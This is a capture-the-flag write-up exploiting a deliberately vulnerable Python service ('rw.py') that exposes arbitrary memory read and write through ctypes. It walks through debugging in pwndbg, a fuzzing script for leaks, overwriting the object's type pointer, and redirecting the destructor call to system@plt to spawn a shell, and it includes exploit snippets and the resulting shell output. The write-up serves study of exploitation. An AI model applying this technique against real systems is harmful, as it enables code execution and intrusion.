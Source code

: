 ##  RW.py

points: 335


In the attachment we have `rw.py` and a dockerfile.
These are the contents of rw.py

```python
#!/usr/bin/env python3

import ctypes

a = [{}, (), [], "", 0.0]
while True:
    try:
        inp = input("> ")
        cmd, idx, *val = inp.split()
        idx = int(idx)
        match cmd:
            case "r":
                print(a[idx])
            case "w":
                ctypes.cast(
                    id(a) + idx, ctypes.POINTER(ctypes.c_char)
                )[0] = int(val[0])
            case _:
                break
    except Exception as e:
        print("error:", e)
```

On analyzing this, we have an object `a` over which we have arbitrary write and read.
`a` here is a `PyObject`
Here's how they are defined:

```c
typedef struct {
     Py_ssize_t ob_refcnt;   /* object reference count */
     PyTypeObject* ob_type;  /* object type */
};
```

Alright let's try to put the arbitrary read and write to use.

For reading we hvae to give `r [num]` as our input, and we only give till 4, after 4 it gives out of index error, maybe we can change that..

To find our python object while debugging, i start writing `0xdeadbeef` in the start, it will only overwrite `ob_refcnt` field which we dont really care about.
Once thats done we can use `search -t qword 0xdeadbeef` command in pwndbg to get the address of our object

```
Note: For degbugging, you can run the rw.py file and attach gdb to it by finding the pid of python process by making use of `ps aux` and `sudo gdb -x ~/.gdbinit -p <pid>.` 
```

```
pwndbg> search -t dword   0xdaedbeef
Searching for a 4-byte integer: b'\xef\xbe\xed\xda'
[anon_7f58bbc00] 0x7f58bbc01e80 0xdaedbeef
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbeef	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x0000000000000005	0x00007f58bbc9de60
```

Here we can notices the 0x5 in 0x7f58bbc01e90
if we try to change it to 0xff by doing `w 16 255`
```
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbef3	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x00000000000000ff	0x00007f58bbc9de60
```
and we get

```
> w 16 255
> r 5
Segmentation fault
```

ok.. it's not out of index anymore, on gdb it showed it wasn't able to dereference 0, it's a matter of using the right index which we can find by making a short fuzz script for the docker environment

```python
def fuzz():
    for i in range(8500,10500):
        try:
            #r = process("./rw.py")
            r = remote('127.0.0.1',1337)
            r.sendlineafter(b'>',b'w 16 255')
            r.sendlineafter(b'>',b'w 17 255')
            r.sendlineafter(b'>',b'r '+str(i).encode())
            l = r.recvline()
            if l and b'0x' in l :
                log.info(f"at {i} : {l}")
                pause()
            r.close()
        except EOFError:
            pass
```

I find interesting leaks at 340 and 706

```
> w 16 255
> w 17 255
> r 340
<cell at 0x7fe1b10955d0: str object at 0x7fe1b109b870>
> r 706
{<weakref at 0x7fe1b10a4400; to 'type' at 0x557664c44ba0 (tuple)>, <weakref at 0x7fe1b10a44a0; to 'type' at 0x557664c447c0 (str)>, <weakref at 0x7fe1b10a45e0; to 'type' at 0x557664c46040 (memoryview)>, <weakref at 0x7fe1b10a4540; to 'type' at 0x557664c45820 (range)>}
>
```

Debuggging the process in container and using vmmap i determine that using 304 i get leak from fixed offset from our object `a` and from 706 i get a leak of `/usr/bin/python3.10` which looks like `0x55..`

```
Note: the process in container can be debugged in same way earlier
```

I also extract the `/usr/bin/python3.10` from container to make it easy for me to run ROPgadget on it.

Now we have a leak which can gives the address of out PyObject and a leak for `/usr/bin/python3.10`, usually on exiting python should call a deconstructor on our object, that would make an interesting code path to exploit
Since python stores `ob_type` pointer, it points to a struct with a lot of information for the object and functions which get called under the hood, something for deallocation too.
So i'll modify obj+8 to write '0x41414141` and see what happens.

```
> w 8 65
> w 9 65
> w 10 65
> w 11 65
> _ 0
```

and in gdb we see
![gdb_output](./hmm.png)


And we see this interesting instruction `0x5594eeb993de    call   qword ptr [r14 + 0xb8]`

where `r14` has the modified pointer from `obj+8` which we can notices because 0x41 in decimal is 65.

So while exiting it will load `obj+8` in r14 and call whatever is at `*(obj+8)+0xb8`, so we can modify it to point to somewhere in object area because we can control this area with arbitrary write

I decide to do something like this
```c
*(obj+8)=obj+16-0xb8
```
and write something at `obj+16`


I was stuck here for a very long time, since i was trying ropping and using syscalls, unable to pivot the stack. Having no leak for system i couldnt call system directly from there, i tried fuzzing huge indexes to get leaks like those

Then i realized the python binary might have plts which resolve the addresses, thanks to gpt :')

```
$ objdump -d python3.10 | grep system
000000000006f460 <system@plt>:
   6f464:	f2 ff 25 9d 2c 4f 00 	bnd jmp *0x4f2c9d(%rip)        # 562108 <system@GLIBC_2.2.5>
   d0407:	e8 54 f0 f9 ff       	call   6f460 <system@plt>
```

awesome.

So we can call system, and `RDI` points to `obj` so we can write the `/bin/sh` str at obj, write `system@plt` at `obj+16` and make `obj+8` `obj+16-0xb8`
```python
w64(r,obj,obj,u64(b'/bin/sh\x00'))
w64(r,obj+8,obj,(obj+16)-0xb8)
w64(r,obj+16,obj,system_plt)
r.sendlineafter(b'>',b'_ 0')
```

With this our payload is ready and can exit to get the shell!!





```
(.venv) [crabsnk@void rw]$ python solve.py
[+] Opening connection to localhost on port 1337: Done
[*] l1 -> 0x7fc5f0a195d0
[*] l2 -> 0x7fc5f0a1f870
[*] obj -> 0x7fc5f0a55a00
[*] /bin/python - > 0x55a608d56000
[*] system_plt at -> 0x55a608dc5464
[*] Paused (press any to continue)
[*] Switching to interactive mode
 $ ls
flag.txt
get-flag
pwn
$ cat flag.txt
get dis man
$
```

the [solve script](./solve.py)
